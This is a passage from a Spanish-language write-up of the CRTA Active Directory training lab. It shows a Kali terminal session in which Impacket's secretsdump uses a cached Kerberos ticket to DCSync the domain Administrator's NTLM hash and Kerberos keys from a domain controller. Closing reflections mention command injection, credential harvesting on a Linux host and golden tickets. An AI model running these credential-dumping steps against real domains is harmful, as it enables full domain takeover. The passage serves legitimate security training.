└─$ export KRB5CCNAME=corpmngr@CIFS_dc01.warfare.corp@WARFARE.CORP.ccache 
                                                                            
┌──(kali㉿kali)-[~/crta/labs/nmap/interna]
└─$ secretsdump.py -k -no-pass dc01.warfare.corp -just-dc-user 'warfare\Administrator' -debug
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[+] Impacket Library Installation Path: /home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket
[+] Using Kerberos Cache: corpmngr@CIFS_dc01.warfare.corp@WARFARE.CORP.ccache
[+] Domain retrieved from CCache: CHILD.WARFARE.CORP
[+] Returning cached credential for CIFS/DC01.WARFARE.CORP@WARFARE.CORP
[+] Using TGS from cache
[+] Changing sname from CIFS/dc01.warfare.corp@WARFARE.CORP to CIFS/DC01.WARFARE.CORP@CHILD.WARFARE.CORP and hoping for the best
[+] Username retrieved from CCache: corpmngr
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[+] Calling DRSCrackNames for warfare\Administrator 
[+] Calling DRSGetNCChanges for {17446816-c072-445e-ac9b-c0e28630bed6} 
[+] Entering NTDSHashes.__decryptHash
[+] Decrypting hash for user: CN=Administrator,CN=Users,DC=warfare,DC=corp
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a2f7b77b62cd97161e18be2ffcfdfd60:::
[+] Leaving NTDSHashes.__decryptHash
[+] Entering NTDSHashes.__decryptSupplementalInfo
[+] Leaving NTDSHashes.__decryptSupplementalInfo
[+] Finished processing and printing user's hashes, now printing supplemental information
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:ca1d92ce23046a58b1cec292376a7d3ec6de02176bf44fb50fede1db46fec183
Administrator:aes128-cts-hmac-sha1-96:33d3f5778fade9945053a05ce2f18445
Administrator:des-cbc-md5:3ba88a586240f423
[*] Cleaning up... 

~~~
De esa forma alternativa igual se puede dumpear el NTDS del dominio principal y de igual manera obtener el hash de "administrator".

## Conclusiones
El laboratorio que ofrece CRTA no es muy complicado en la parte de ejecución de comandos, sino mas en la parte de razonamiento y entendimiento sobre los posibles ataques que se pueden realizar y exfiltración de datos.
Me gusto que se tiene que enumerar bastante bien todo para entender como funciona, poniendo en practica todo lo aprendido en el curso CRTA.
Las complicaciones mas grandes que tuve personalmente se pueden resumir a:
- Encontrar el punto de entrada de la pagina web: Esta vulnerabilidad no la puede obtener por mi cuenta, ya que pense que iba de la mano con la opción de subir archivos y perdi bastante tiempo, tuve que recurrir el writeup para ver el punto de entrada, mi ultima opción seria pensar en un "command injection" en un parámetro que no tira información alguna.
- La exfiltración de credenciales dentro del servidor Linux: Al momento de no encontrar un punto de entrada con credenciales validas en el entorno AD, tuve que ver el writeup para saber que en el servidor Linux existian credenciales para AD, asi tambien "linpeas" me entrego bastante información y con ello varios lugares donde visitar y no encontrar realmente información util que pueda usar, perdiendo asi bastante tiempo para enumerar cada base de datos en sqlite y revisando cada tabla.
Fuera de ello, lo demas fue cosa de lógica y recordar lo aprendido el los modulos de CPTS (Metodologia AD) que es exactamente lo que hace con el golden ticket.

